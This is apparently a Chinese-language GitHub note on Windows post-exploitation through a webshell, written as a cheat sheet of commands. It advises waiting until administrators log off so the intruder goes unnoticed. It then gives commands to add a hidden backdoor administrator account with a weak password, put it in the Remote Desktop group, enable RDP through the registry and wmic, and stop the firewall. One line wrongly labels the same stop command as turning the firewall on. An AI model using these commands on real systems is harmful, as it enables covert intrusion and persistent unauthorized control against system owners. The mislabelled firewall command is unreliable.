



#提权预处理


[TOC]


####执行命令查看在线用户


```

#执行命令,查看在线用户，如果有用户在线，就不要在做其他渗透了，防止被发现，等管理员下线之后再操作

query user

#发现管理员2015年11月27日登录之后没再登陆


```


 


#####常用的windows命令

```

ipconfig        #显示本地IP地址

whoami			#查看webshell权限

net user fuckadmin$ 123 /add    #添加用户fuckadmin$及密码为123的用户

net localgroup administrators fuckadmin$ /add  #添加fuckadmin$到管理员组

wmic path win32_terminalservicesetting where (__CLASS != "") call setallowtsconnections 1    #一键开启远程桌面命令,需要administrator及以上

注册表开启3389
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f


reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

net stop sharedaccess   #关闭防火墙 

net stop sharedaccess   #开启防火墙


```


####关于远程桌面端口的查看操作


#####第一种方法查看远程端口以及开远程桌面注册表命令


```

查看远程端口命令:


REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber


返回的为16进制


HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp

    PortNumber    REG_DWORD    0xd3d


#将0xd3d由16进制转为10进制为3389

```


```

开启远程桌面命令：


REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f


```


#####第二种方法查看远程桌面端口


```

#看看有没有TermService,有的话说明开启了远程桌面端口

tasklist /svc

#执行完之后PID:640知道了PID为640

```


  


```

然后执行

netstat -ano

tcp   PID：640所对应的端口为3389

```


 


#####添加用户以及添加到管理员组以及远程桌面组（如果为管理员权限却登录不了远程桌面看这个）


```

#添加用户fuckadmin$及密码为123的用户

net user fuckadmin$ 123 /add

#添加fuckadmin$到管理员组

net localgroup administrators fuckadmin$ /add


#尝试一下远程桌面连接，如果连接不上，且远程桌面端口开放，那么把管理员添加到远程桌面组试一试

net localgroup "Remote Desktop Users" fuckadmin$ /add


```


